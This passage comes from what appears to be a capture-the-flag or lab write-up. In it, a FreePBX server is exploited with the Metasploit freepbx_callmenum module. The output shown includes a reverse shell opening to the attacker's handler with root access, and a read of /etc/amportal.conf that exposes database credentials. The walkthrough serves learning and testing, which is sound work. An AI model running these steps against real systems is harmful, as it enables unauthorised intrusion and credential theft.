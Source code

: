 ``` plain


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

I specified the extension to match one of those that we previously discovered. And the machine belongs to us now!

``` plain
msf exploit(freepbx_callmenum) > exploit

[*] Started reverse handler on 192.168.80.130:4444 
[*] 192.168.80.131:80 - Sending evil request with range 2000
[*] 192.168.80.131:80 - Sending evil request with range 2001
[*] Command shell session 1 opened (192.168.80.130:4444 -> 192.168.80.131:47268) at 2014-10-14 14:42:29 +0300

whoami
root
```

But we are not done. We still have to find the usernames and passwords, and get the voicemail from the Support account. I googled a bit for a helpful configuration file, which turned out to be the <code>amportal.conf</code> file:

``` plain
cat /etc/amportal.conf
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, either version 2 of the License, or
#    (at your option) any later version.
#
#    FreePBX is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License
#    along with FreePBX.  If not, see <http://www.gnu.org/licenses/>.
#
# This file contains settings for components of the Asterisk Management Portal
# Spaces are not allowed!
# Run /usr/src/AMP/apply_conf.sh after making changes to this file

# AMPDBHOST: the host to connect to the database named 'asterisk'
AMPDBHOST=localhost

# AMPDBUSER: the user to connect to the database named 'asterisk'
AMPDBUSER=freepbx

# AMPDBENGINE: the type of database to use
AMPDBENGINE=mysql

# AMPDBPASS: the password for AMPDBUSER
AMPDBPASS=fpbx

# AMPENGINE: the telephony backend engine to use
AMPENGINE=asterisk

```